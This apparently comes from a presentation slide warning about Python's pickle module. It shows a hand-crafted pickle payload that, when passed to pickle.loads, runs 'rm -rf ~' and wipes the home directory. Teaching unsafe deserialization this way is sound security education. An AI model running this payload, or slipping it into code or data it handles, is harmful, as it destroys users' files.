

# pickle can also delete your home directory

data  = """cos
system
(S'rm -rf ~'
tR.
"""
pickle.loads(data)